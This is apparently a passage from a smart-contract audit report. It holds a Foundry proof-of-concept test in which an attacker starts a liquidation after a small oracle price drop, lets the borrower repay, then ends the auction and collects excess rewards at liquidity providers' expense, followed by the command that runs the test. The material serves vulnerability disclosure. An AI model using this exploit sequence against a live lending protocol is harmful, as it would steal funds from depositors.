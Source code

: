```solidity
        pool.borrow(openPosition, address(aliceAccount), alice, bytes3(0));
        vm.stopPrank();

        console.log("----------------After Loan----------------");
        emitHelper();

        // price falls down by a little
        transmitOracle(mockOracles.stable2ToUsd,0.999 ether);

        // assertEq(aliceAccount.isA)
        assertEq(aliceAccount.isAccountLiquidatable(),true);



        console.log();
        console.log("----------------After PriceFall----------------");
        emitHelper();

        vm.startPrank(charlie);
        // attack starts
        liquidator.liquidateAccount(address(aliceAccount));

        console.log();
        console.log("----------------After AuctionStart----------------");
        emitHelper();
        console.log();

        vm.stopPrank();

        // alice pays back the debt 
        vm.startPrank(alice);
        pool.repay(3000 * 1e6, address(aliceAccount));
        vm.stopPrank();

        vm.startPrank(charlie);
        liquidator.endAuction(address(aliceAccount));
        console.log();
        console.log("----------------After AuctionEnd----------------");
        emitHelper();
        console.log();
        uint liquidationRewards = pool.liquidityOf(charlie);
        pool.withdrawFromLendingPool(liquidationRewards, charlie);
        emit log_named_decimal_uint("liquidationRewards", liquidationRewards, 6);
        assertGt(liquidationRewards, minimumMargin);
        vm.stopPrank();
    }
}
```

add it in lending-v2/test/fuzz/LendingPool as a new file. and run using 
```bash
forge test --match-test testExtraLiqRewards -vv
```
## Impact
Extra rewards than intended, loss to LPs
